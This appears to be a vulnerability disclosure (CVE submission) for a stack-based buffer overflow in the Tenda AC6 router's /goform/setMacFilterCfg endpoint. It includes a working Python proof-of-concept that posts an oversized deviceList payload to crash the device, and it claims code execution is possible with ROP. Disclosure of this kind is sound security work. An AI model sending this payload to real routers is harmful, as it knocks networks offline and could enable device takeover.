 # CVE Submission: Stack-Based Buffer Overflow in Tenda AC6V1.0(firmware V15.03.05.19) setMacFilterCfg

## Summary
A stack-based buffer overflow vulnerability in the Tenda AC6V1.0 router (firmware V15.03.05.19) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `deviceList` parameter in the `/goform/setMacFilterCfg` endpoint. The flaw resides in the `sub_BE73C` function (aliased as `parse_macfilter_rule`), which uses unsafe `strcpy` operations without bounds checking, enabling stack corruption.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
## Details
- **Vendor**: Tenda
- **Product**: Tenda AC6V1.0 
- **Firmware Version**: V15.03.05.19
- **Firmware Download**: [https://tenda.com.cn/material/show/2681](https://tenda.com.cn/material/show/2681)
- **Component**: `/goform/setMacFilterCfg` (functions `formSetMacFilterCfg` and `sub_BE73C`)
- **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
- **CVE ID**: Pending
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description
The vulnerability exists in the `formSetMacFilterCfg` function, which processes HTTP POST requests to `/goform/setMacFilterCfg`. The `deviceList` parameter is passed to `sub_BD758` and then to `sub_BE73C` (parse_macfilter_rule). The portion after `\r` is copied into a fixed-size buffer using `strcpy(a2, src)` without length validation. If the input exceeds the buffer size, it overflows the stack, potentially overwriting return addresses or other critical data.
![PoC 2 Result: Root Directory Listing](./imgs/1.png)
This allows attackers to:
- Cause a denial of service (DoS) by crashing the router.
- Achieve remote code execution (RCE) by crafting a payload with ROP gadgets.



## PoC: Python Exploit Script
```python
from pwn import *
import requests

payload = cyclic(1000)  # 1000-byte cyclic pattern to overflow buffer
url = "http://192.168.xxx.xxx/goform/setMacFilterCfg"
cookie = {"Cookie": "password=rfl1qw"}
data = {"macFilterType": "black", "deviceList": b"\r" + payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)  # Double POST to bypass potential checks
print(response.text)
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

## Impact
- **Denial of Service (DoS)**: The oversized payload crashes the router’s web server, disrupting network connectivity and management access.
- **Remote Code Execution (RCE)**: With a crafted ROP chain, attackers can execute arbitrary commands.

